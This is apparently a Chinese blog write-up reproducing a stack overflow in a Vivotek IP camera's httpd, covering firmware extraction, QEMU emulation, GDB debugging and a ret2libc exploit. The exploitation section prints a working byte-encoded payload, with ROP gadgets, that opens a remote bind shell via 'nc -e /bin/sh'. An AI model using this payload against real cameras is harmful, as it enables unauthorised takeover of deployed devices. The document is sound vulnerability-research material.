









0x01 前言
2017年11月披露的vivotek的一个栈溢出漏洞，漏洞发生在其固件中的httpd服务，其未对用户post的数据长度做校验，导致攻击者可以发送特定的数据使摄像头进程崩溃，甚至任意代码执行。这边看到后觉得挺有意思的，打算复现下。
贴一下漏洞作者放出的poc ： https://www.exploit-db.com/exploits/44001
1 | CC8160 CC8370-HV CC8371-HV CD8371-HNTV CD8371-HNVF2 FD8166A |
vivotek官网固件下载地址：http://www.vivotek.com/firmware/
0x02 环境搭建
固件下载
vivotek官网并没有发布漏洞固件的历史版本，深夜去国外各大网站上去爬贴找资源，然鹅并没有找到，想喷一波，没有固件降级好傻，看到一堆国外友人吐槽不能版本降级。在漏洞发现者的github上找vulnable firmware的过程中看到了有同样诉求的老哥，看来遇到战友了，果断留issue占楼。

看到作者也留言了233333333。
没办法，没有钱买vivotek摄像头，无法通过串口啥的提固件；只能去官网找技术支持，装一波升级固件后无法启动控制台的小可怜~

客服小姐姐还是很温柔的，固件到手，不忘了再github issue放一波资源。

固件解包
拿到固件后binwalk跑一下，发现文件系统在_31.extracted/_rootfs.img.extracted/squashfs-root这个目录下

看到httpd的类型，32位的arm程序，小端，动态链接，而且符号表被裁23333333
服务运行
解包以后就能看到漏洞服务httpd了，由于是arm架构，x86不能直接跑，这边用qemu模拟arm环境运行服务。

这边遇到两个坑点，一个是一开始运行httpd的时候会显示gethostbyname::success，然鹅httpd进程并没有成功启动，httpd文件丢ida

这边涉及两个主要函数，一个是gethostname,它获取本机主机名，将结果存放在rlimits变量中；另一个是gethostbyname,这个函数通过rlimits中存放的主机名寻找ip。这边由于固件hostname中的主机名和宿主机中的hostname有冲突，导致gethostbyname并不能正确的找到主机名对应的ip。
这边把宿主机和固件hosts文件中的主机名改成一致就行了。
另一个坑点就比较坑了。改完hostname并不能成功运行，httpd服务启动会报一个Could not open boa.conf for reading的错，同样ida里回溯关键字符串引用，找到如下代码

发现是无法找到/etc/conf.d/boa/boa.conf这个文件，固件目录下看了一下发现/etc中的conf.d是一个软链接，指向../mnt/flash/etc/conf.d

进../mnt/flash/etc/conf.d看了下，发现并没有conf.d文件夹，emmmmmmm
一开始以为是binwalk解包方式不对，导致文件缺失，然鹅windows下用7zip提取依旧是显示缺文件；猜测etc文件是不是存放在其它包里，果不其然………..

找到对应版本固件的包，将其中的etc文件夹复制到文件系统下的 /mnt/flash/中覆盖原本的etc文件夹。看一下软连接应该是链接正常了，颜色都变了23333333，这下就能成功运行服务了。
调试环境
运行漏洞作者提供的poc发现能导致httpd程序崩溃

然鹅，光能让服务崩溃最多只是个dos拒绝服务，我还想进一步的去观察，去看这个漏洞服务是否能被利用。对这个程序的调试应运而生。
调试的话需要搭建qemu虚拟机，贴下arm-debian的qemu镜像地址：https://people.debian.org/~aurel32/qemu/armel/
开启虚拟机：
1 | sudo tunctl -t tap0 -u `whoami` #这边新建一张网卡和虚拟机进行通信 |

之后对虚拟机进行一系列配置：
1 | sudo mount -o bind /dev ./squashfs-root/dev #将固件文件系统下的dev目录挂载到虚拟机/dev |
默认/dev和/proc在chroot的时候是不会挂载的，所以这边才需要手动挂载。

这边选择远程调试，因为首先要考虑到arm-debian原生镜像并不带gdb，apt-get下载太慢，交叉编译又很烦，而且更重要的是不太直观。这边其实是想ida远程调的，但是这边并没有用这种方法调，后面说原因。
//其实是尝试过交叉编译的，armgdb还好说，32位的arm-gdbserver压力就比较大了，可能qemu虚拟机撑不住，果断弃坑，用别人的多好，何必重复造轮子(滑稽)
贴下已经编译好的各个平台上的gdb&gdbserver地址：https://github.com/mzpqnxow/gdb-static-cross/tree/master/prebuilt-static
考虑到qemu虚拟机中下载太慢，这边先下到主机用python -m SimpleHttpServer传过去就好了。
之后就可以gdbserver调一下了，这边httpd运行后会显示pid，gdbserver直接attach就好了。

这边虚拟网卡其实最好用桥接，NAT的话ida无法远程调，但是配置桥接网卡还是有点烦的，而且这里没必要，因为这个arm-pwn相对来说还是比较好利用的。所以直接宿主机target remote调了。
0x03 开始调试
寻找漏洞点
宿主机target remote上去，向服务端口发送poc，发现崩溃，查看崩溃时各寄存器数值并进行栈回溯查看函数调用



由被调试程序崩溃后的寄存器值可以发现，程序返回时的r4、r5、r6、r7、r8、r9、r10、r11以及pc都被poc中的字符串覆写，由于pc指向了无效地址，所以程序报错。
贴下作者的poc：
1 | echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n" | netcat -v 192.168.2.2 80 |
通过对Content-Length的交叉引用找到漏洞点


这边就是漏洞所在，程序没有对content-length字段进行校验，直接用strcpy把content-length字段的值复制到长度为4的dest数组中。由于没有进行校验，内容长度字段可以任意指定，而dest缓冲区距栈底只有0x38字节，不溢出才怪了。
构造溢出
知道了漏洞点的位置以及形成原因，这边来尝试构造一下。需要注意的是，arm下的函数调用的栈布局和x86下是有很大不一样的，函数的返回地址是专门由寄存器LR保存的，这边content-length的长度超过0x38-4字节就会把LR覆盖成其它内容；有关arm的一些东西打算下期写一篇总结下，通过这篇复现还是学到不少arm常识的。

checksec看了下httpd的编译保护来决定通过什么方式利用，这边程序只开启了nx，所以无法直接写shellcode；ret2libc的话是个不错的选择，但前提是vivotek实体机上没有开aslr，否则的话还是要先泄露libc基址，然后再获取一次输入，相对来说会比较烦一点；但是考虑到IoT设备为效率考虑一般是不会开aslr的，所以这边直接通过ret2libc来进行利用。
0x04 漏洞利用
利用思路
qemu的arm-debian虚拟机中先关闭aslr：echo 0 > /proc/sys/kernel/randomize_va_space
由于没有开启aslr，那么堆栈地址、text&data段地址、libc加载基址都是固定的，并不需要泄露libc基址。

libc基址知道，偏移固定，system函数地址相当于也知道，接下来就是参数的传递问题了。
x86下的函数是通过栈来传参，但是在mips和arm中，会优先通过寄存器传参，有点类似x64，arm中的函数参数优先通过r0-r3进行传递；system函数的参数就存放在r0中，而内容长度是存放在栈上的，所以这边需要一条gadget链来让r0指向栈上指定的内容。
这边选取的gadget如下：
1 | 0x00048784 : pop {r1, pc} |
为什么不直接选pop {r0,pc}，因为pop {r0,pc}对应的地址0x00033100中有截断符\x00，且libc基址最后也是\x00，所以用pip {r0,pc}会导致输入中断，无法继续利用。所以这边只能通过先将参数地址传给r1，之后再mov到r0中去。
让r0指向栈上指定的内容，之后再执行system函数就能任意代码执行了。
利用脚本
1 | #encoding=utf-8 |
字节码
由于复现漏洞的虚拟机中并没有pwntools，所以整理成字节码直接跑，有点硬核233333333
1 | echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x84\x57\xf7\x76\xe0\xeb\xff\x7e\xa4\x3a\xf4\x76aaaaaaaa\xb0\x4a\xf7\x76pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;nc -lp2222 -e/bin/sh >\n\r\n\r\n" | nc -v 192.168.2.2 80 |
0x05 复现


通过此漏洞在远端2222端口反弹一个shell，本地nc过去，成功getshell~。
到这边整个复现过程就算结束了，其实调试和运行环境布置在树莓派上应该会更好一点，能ida远程调就爽的一批了。
0x06 总结
这次的复现过程真的值得好好去讲讲，去回味，漏洞本身是不难的，只是一个栈溢出，但是在真实环境下，在IoT环境下，它又是那么与众不同。
这次的复现真的让我学会了很多，固件、社工(滑稽)、qemu、远程调试、交叉编译、arm语法，甚至arm-pwn…….
更重要的是，它让我知道了对一个一开始觉得高不可攀无法解决的问题如何起手。
ps:调试阶段的时候玩gdbserver触发了一个double free，先去看看是否有相关的漏洞，没有的话过几天调一波~

xdw 加油加油~